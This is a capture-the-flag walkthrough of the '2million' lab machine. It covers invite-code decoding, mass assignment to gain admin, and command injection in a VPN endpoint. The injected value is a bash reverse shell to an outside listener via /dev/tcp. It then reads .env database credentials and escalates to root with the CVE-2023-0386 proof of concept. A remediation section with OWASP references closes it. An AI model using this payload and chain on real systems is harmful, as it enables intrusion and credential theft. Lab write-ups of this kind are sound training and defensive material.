## User Flag
- Always start with recon:
    - 

```bash
nmap -sC -sV 10.129.31.156
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
```

- Add to `/etc/hosts`, we can visit the page now
- We can now fuzz for the directories:
    - 
- We see some interesting ones, but only the `/invite` presents some useful info
- There is a js file that's named `inviteapi.js`, and diving deeper we see the logic
    - 
- Seems like `makeInviteCode` deterines how the invite code is made (and is obfuscated js code), so if we look deeper in this by going to a deobfuscation tool:
    - 
    - We see that it is wayyy easier to read now, and it seems the api route leaks info
- Visiting the api route first denies it, but remember we need to POST here:
    - Using burp and just simply modifying the "GET" to "POST"
    - 
    - See that the code is encrypted via ROT13, and it is just caesar cipher with shift=13
- 
- Follow this:
    - 
      <span class="caption">`POST /api/v1/invite/generate` returns an invite code marked `"format":"encoded"`. It's base64, decoded in the next step.</span>
- It is very obvious that it is base64 encoded, so just decode that:
    - 
- Great: Now we login
    - 
      <span class="caption">Logged in to the retro HTB lab dashboard. The pages here (Access, the VPN connection pack) are backed by the `/api/v1` routes we poke at next.</span>
    - (seems like an old version of htb)
- We can gather more info by visiting `/api/v1`
    - 
    - hmm, update user settings? maybe we can change ourselves to admin by sending a put request to this endpoint?
- 
- This auth endpoint shows that the field eats for `is_admin`, so if we set it to 1 in the PUT request to the update endpoint:
    - 
- Shows invalid content type, so we need to also specify the content type in the burp request
    - 
- Now it says missing email (its like an oracle we just keep filling in what's needed)
    - 
- Seems like it worked! Now we just have to find what this "admin" power gives
    - Let's visit the previously unauthorized endpoint `vpn generation` with the request already modified
        - 
- Hmm so it seems it reacts to what I enter, maybe we inject our rev shell?:
```
POST /api/v1/admin/vpn/generate HTTP/1.1

Host: 2million.htb

Cache-Control: max-age=0

Accept-Language: en-US,en;q=0.9

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Cookie: PHPSESSID=d2lm1pud057ia6kgn900hjd0p3

Connection: keep-alive

Content-type: application/json

{"username":"111$(bash -c 'bash -i >& /dev/tcp/10.10.16.159/4444 0>&1')"}

```
- Set up a listener and we got in!
- Cause its a webapp, there might be an env file somewhere, thus If we go and find `./env` 
    - 
- We can access the db now (note: stablize the shell first else the db wont show up)
- 
- Do some `show databases;` -> `use htb_prod;` -> `show tables;` -> `SELECT * FROM users;`
    - 
- Crack this password
    - (NO, THIS IS A RED HERRING)
- lmao just do `su admin` and enter the db password ;-;

## Root Flag
- Enumerating a bit we find a mail that literally guides us the PE path
    - 
- So it seems like a kernel CVE?
    - It is a kernel CVE, let's clone the PoC locally and then use scp to copy the whole directory over to the machine due to the machine not having internet
- `scp -r CVE-2023-0386 admin@2million.htb:/tmp/`
-  Just follow the PoC and we can easily obtain root
    -  

## Remediation

- **The invite flow is security-by-obscurity.** `inviteapi.js` and the `generate` endpoint let anyone mint a valid code (it was just ROT13 + base64). An invite system should issue server-side, unguessable tokens tied to a real inviter, and never expose generation logic client-side.
- **Fix the mass-assignment.** Setting `is_admin: 1` in the PUT to the user-settings endpoint made us admin — the classic over-permissive update. Bind only the fields a user may change; `is_admin` must never be settable from a profile update. See [OWASP — Mass Assignment Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html).
- **Sanitize the VPN generator.** `/api/v1/admin/vpn/generate` passed `username` into a shell, so `111$(...)` executed. Call the VPN tooling with an argument vector and validate the username against a strict pattern.
- **Keep DB credentials out of a readable `.env`, and patch the kernel.** The `.env` gave DB access (and the admin password for `su`), and root was [CVE-2023-0386](https://nvd.nist.gov/vuln/detail/CVE-2023-0386) (OverlaySFS). Restrict `.env`, use a least-privilege DB user, and keep the kernel patched.

### References

- [OWASP — Mass Assignment Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html)
- [OWASP — OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
- [CVE-2023-0386 — OverlayFS local privilege escalation](https://nvd.nist.gov/vuln/detail/CVE-2023-0386)
